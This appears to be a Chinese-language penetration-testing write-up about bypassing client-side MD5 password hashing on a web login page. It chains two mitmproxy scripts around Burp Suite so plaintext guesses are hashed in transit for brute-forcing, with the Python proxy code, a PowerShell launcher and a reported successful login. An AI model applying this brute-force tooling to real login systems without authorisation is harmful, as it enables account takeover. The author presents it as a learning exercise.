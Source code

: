 # 站点

登录页面

![image](https://github.com/user-attachments/assets/cb1aa24c-7560-486d-8214-b14e115cb550)

# js分析
抓包查看只有`password`加密

![image](https://github.com/user-attachments/assets/28ffe427-7d9e-419b-8e3e-654366fd3e3a)


全局搜索`password`，测试打断点

可以看到`security_in`为密码，下面是开始加密，根据函数名字来看估计是`md5加密`

```SQL
$("#password").val(hex_md5($("#security_in").val()));
```




![image](https://github.com/user-attachments/assets/adfd04a8-1443-4197-8a30-4ef83c99e2aa)


控制台打印

![image](https://github.com/user-attachments/assets/f70aa3ff-a912-46f8-8179-bf9e9c7569fe)


拿去cmd5进行解密

![image](https://github.com/user-attachments/assets/2489c03b-2481-4309-a241-f26bd0af67eb)


已经确认这一步是md5加密

到下一步就是执行登录了，那就目前来说`只有`对`passowrd`进行了`MD5加密`

![image](https://github.com/user-attachments/assets/2dec0754-e992-4e33-a606-1e0c8638a203)


直接爆破或者使用脚本

此处为了学习，我使用脚本进行操作



# 脚本实现方案

```SQL
浏览器/客户端
   ↓
[ 下游 mitmproxy：7070 端口 ]  ← 解密（MD5 → 明文）
   ↓
[ Burp Suite（监听 8080 端口） ]
   ↓
[ 上游 mitmproxy：9091 端口 ]  ← 加密（明文 → MD5）
   ↓
服务器接口（http://...）
```


下游代理

```SQL
from mitmproxy import http
import hashlib
import urllib.parse

def request(flow: http.HTTPFlow):
    if flow.request.method == "POST" and "application/x-www-form-urlencoded" in flow.request.headers.get("Content-Type", ""):
        data = urllib.parse.parse_qs(flow.request.get_text())

        # 解密 password（MD5 → 明文，只做演示处理，实际 MD5 无法逆向）
        # 这里只是为了展示如何处理，如果你有自己的解密逻辑，可以在这里实现
        md5_password = data.get("password", [""])[0]
        if md5_password == "37693cfc748049e45d87b8c7d8b9aacd":
            data["password"] = ["123456"]  # 模拟解密后的明文

        # 重新编码
        new_body = urllib.parse.urlencode({k: v[0] for k, v in data.items()})
        flow.request.set_text(new_body)
```


上游代理

```SQL
from mitmproxy import http
import hashlib
import urllib.parse

def request(flow: http.HTTPFlow):
    if flow.request.method == "POST" and "application/x-www-form-urlencoded" in flow.request.headers.get("Content-Type", ""):
        data = urllib.parse.parse_qs(flow.request.get_text())

        # 加密 password 字段
        plain_password = data.get("password", [""])[0]
        if plain_password and len(plain_password) < 32:
            md5_pass = hashlib.md5(plain_password.encode()).hexdigest()
            data["password"] = [md5_pass]

        # 重新编码
        new_body = urllib.parse.urlencode({k: v[0] for k, v in data.items()})
        flow.request.set_text(new_body)
```


启动脚本

```SQL
# 关闭之前运行的 mitmdump 进程（谨慎使用）
Get-Process mitmdump -ErrorAction SilentlyContinue | Stop-Process -Force

# 启动 downstream 代理 7070，转发到 Burp 8080
Start-Process -NoNewWindow -FilePath "mitmdump" -ArgumentList "-s downstream.py -p 7070 --mode upstream:http://127.0.0.1:8080" 

# 启动 upstream 代理 9091，直接转发到服务器
Start-Process -NoNewWindow -FilePath "mitmdump" -ArgumentList "-s upstream.py -p 9091"

Write-Host "两个 mitmdump 代理已启动："
Write-Host "下游代理 7070 → 转发到 Burp 8080"
Write-Host "上游代理 9091 → 处理加密"
Write-Host "请确保 Burp 代理监听端口为 8080，且上游代理设置为 127.0.0.1:9091"
```


运行脚本

```SQL
.\start_proxies.ps1
```


![image](https://github.com/user-attachments/assets/e4087923-5ade-4b3c-9c16-664d886e9eee)


因为`MD5不可逆`，所以只能实现在repeater中手动将密文换为明文，然后发包到上游代理进行MD5加密，发送给服务端，也可以实现爆破

![image](https://github.com/user-attachments/assets/8ad8c52e-edd2-4a30-b90c-e396f0da0eea)


登录成功：xxx/xxx

(此时就算把正确密码换成密文进行repeater也会报错，因为上游代理对`password进行了MD5加密`)

![image](https://github.com/user-attachments/assets/b5f71efa-b241-4ecd-b8e1-d45e73365b6f)




